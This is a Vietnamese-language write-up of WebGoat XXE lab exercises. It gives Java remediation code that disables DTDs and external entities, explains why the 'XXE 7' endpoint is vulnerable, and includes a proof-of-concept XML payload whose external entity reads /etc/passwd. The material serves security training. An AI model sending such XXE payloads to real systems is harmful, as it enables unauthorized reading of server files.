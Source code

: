 - Gửi request đi

![img](/img/WebGoat/(A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%201.png)

## Cách khắc phục

- Kiểm tra lại input XML được gửi đến từ phía client để xem có bị tấn công XXE hay không
- Tắt tính năng DTD của XML

```java
protected Comment parseXml(String xml) throws XMLStreamException, JAXBException {
    var jc = JAXBContext.newInstance(Comment.class);
    var xif = XMLInputFactory.newInstance();

    xif.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
    xif.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // compliant
    xif.setProperty(XMLInputFactory.SUPPORT_DTD, false); // Disable DTDs entirely
    xif.setProperty("javax.xml.stream.isSupportingExternalEntities", false); // Prevent external entities

    var xsr = xif.createXMLStreamReader(new StringReader(xml));

    var unmarshaller = jc.createUnmarshaller();
    return (Comment) unmarshaller.unmarshal(xsr);
  }
```

# XXE 7

## Nguyên nhân lỗi

- Lập trình viên sử dụng cả 2 Content-Type là `application/json` và `application/xml` cho dữ liệu được gửi đến từ phía Client. Tuy nhiên khi xử lý Content-Type là **application/xml**, thì lập trình viên lại mắc phải lỗi như **XXE 1**

## POC

- Bắt một request khi gửi Review. Lúc này Content-Type là `application/json`

![img](/img/WebGoat/(A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%202.png)

- Đổi Content-Type thành `application/xml` , và Body thành xml như dưới

```xml
<?xml version="1.0"?>
<!DOCTYPE text [
  <!ENTITY payload SYSTEM "file:///etc/passwd">
]>
<comment>  
	<text>&payload;</text>
</comment>
```
